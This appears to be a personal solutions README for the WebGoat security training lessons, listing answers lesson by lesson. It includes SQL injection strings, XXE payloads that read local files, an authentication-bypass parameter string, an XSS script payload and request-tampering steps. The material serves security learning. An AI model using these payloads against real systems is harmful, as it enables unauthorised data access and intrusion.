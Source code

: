 # WebGoat
## [General](./General/README.md)
## [Injection Flaws](./InjectionFlaws/README.md)
## [Authentication Flaws](./AuthenticationFlaws/README.md)
## [Cross-site Scripting](./Cross-SiteScripting_XSS/README.md)
## [Access Control Flaws](./AccessControlFlaws/README.md)
## [Insecure Communication](./InsecureCommunication/README.md)
## [Request Forgeries](./RequestForgeries/README.md)
## [Vulnerable Components](./VulnerableComponents/README.md)
## [Client Side](./ClientSide/README.md)
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
```
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
```
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injection mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws [x]
### Authentication Bypass [x]
```js
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```
### JWT tokens (Under development) [x]
* In development, therefore passed by default
---
## Coss-Site Scripting (XSS) [ ]
### Cross Site Scripting
#### 3
* YES
#### 7
* Credit card number field
```jss
<script>alert('my javascript here')</script>
```
#### 10
* 2 ways - start.mvc#test/
  * go to lesson java file and check if condition
  * go to GoatRoute.js and find the solution
#### 11
* url + <script>webgoat.customjs.phoneHome()
## Access Control Flaws [ ]
### Insecure Direct Object References
#### 2
* tom cat
#### 3
* Intercept http request
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
* Missing fields are `role` and `userId`
#### 4
* Intercept HTTP, path to profile `WebGoat/IDOR/profile/2342384`
### Missing Function Level Access Control
#### 2
* Enough to access the console and analyse the html page and check for links or other important info that are just commented out. Like the Admin panel.
#### 3
*
## Insecure Communication
### Insecure Login
* Intercept the login and use the intercepted credential to sign-in
## Request Forgeries
### Cross-Site Request Forgeries
*
## Vulnerable Components - A9
### Vulnerable Components
* It is enough to delete the content ```<contact></contact>```
## Client side
* To solve all this tasks it is enough to search in the html the needed fields and modify them
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
